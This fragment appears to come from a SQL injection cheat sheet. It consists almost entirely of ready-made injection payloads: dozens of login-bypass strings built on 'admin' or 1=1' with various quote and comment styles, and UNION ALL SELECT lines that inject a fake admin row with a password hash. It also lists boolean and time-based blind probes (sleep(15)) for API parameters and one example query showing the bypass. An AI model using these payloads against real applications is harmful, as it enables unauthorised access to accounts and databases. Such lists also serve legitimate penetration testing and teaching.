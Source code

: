 ```c
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

### Testing APIs

```c
{"id":"56456"}                   // ok
{"id":"56456 AND 1=1#"}          // ok
{"id":"56456 AND 1=2#"}          // ok
{"id":"56456 AND 1=3#"}          // error
{"id":"56456 AND sleep(15)#"}    // sleep 15 seconds
```

### Payload Examples

```c
SELECT * FROM users WHERE username = 'admin' OR 1=1-- -' AND password = '<PASSWORD>';
```
